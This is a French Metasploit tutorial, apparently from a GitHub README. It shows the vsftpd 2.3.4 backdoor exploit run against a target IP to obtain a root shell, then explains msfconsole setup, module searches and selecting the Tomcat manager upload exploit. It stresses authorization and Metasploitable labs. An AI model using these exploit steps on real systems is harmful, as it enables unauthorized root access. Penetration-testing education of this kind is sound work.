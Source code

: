 bash<br>
search vsftpd<br <br>
### Puis sélectionnez :
bash<br>
use exploit/unix/ftp/vsftpd_234_backdoor<br>
### Configurer et lancer : Définissez l’adresse IP de la cible :
bash<br>
set RHOSTS 192.168.1.129(IP cible)<br>
set payload cmd/unix/interact<br>
exploit<br>
### Vérifiez votre accès avec :<br>
bash<br>
whoami<br>
### Cela devrait retourner root.
Ces étapes sont simples à suivre et vous donnent un aperçu pratique de l’outil.<br>
### <span style="color: blue">Note Détaillée</span>
###Contexte et Importance de Metasploit
Metasploit, développé par Rapid7, est un framework open-source essentiel pour les tests de pénétration, utilisé par les analystes en sécurité et les testeurs pour identifier et exploiter des vulnérabilités. Il est particulièrement utile pour simuler des attaques et renforcer la sécurité des systèmes.<br>
Cependant, son utilisation sans autorisation est illégale, ce qui en fait un sujet sensible nécessitant une approche éthique. Les recherches suggèrent que Metasploit est souvent préinstallé sur des distributions comme Kali Linux ou Parrot Security, facilitant son accès pour les utilisateurs. Pour pratiquer en toute sécurité, il est recommandé d’utiliser des machines virtuelles comme Metasploitable2 ou 3, disponibles sur Metasploit. Ces environnements sont conçus pour être vulnérables, offrant un terrain d’apprentissage sans risque.<br>
### Installation et Lancement
Pour commencer, Metasploit peut être lancé via deux méthodes sur Kali Linux :
Via le menu Applications : Allez dans 08 Exploitation Tools > metasploit framework.<br>
Ou directement en terminal avec la commande :<br>
bash<br>
msfconsole<br>
Cela affiche l’interface avec un prompt MSF.<br>
### Il est conseillé de mettre à jour la base de données avec :
bash<br>
db_update<br>
Cela garantit l’accès aux derniers exploits et vulnérabilités (au 19 mars 2025, cela inclut les mises à jour récentes).<br>
Recherche et Sélection de Modules<br>
Metasploit propose une vaste bibliothèque de modules, organisés en catégories comme exploits, payloads, et auxiliaires. La recherche peut être affinée avec des filtres, par exemple :<br>
### Pour des exploits Windows de 2023 :
bash<br>
search cve:2023 type:exploit platform:windows<br>
### Pour des modules Tomcat :
bash<br>
search tomcat
### Une fois un module trouvé, sélectionnez-le avec use, par exemple :
bash<br>
use exploit/multi/http/tomcat_mgr_upload<br>
### Les classements (Excellent, Great, etc.) peuvent guider votre choix.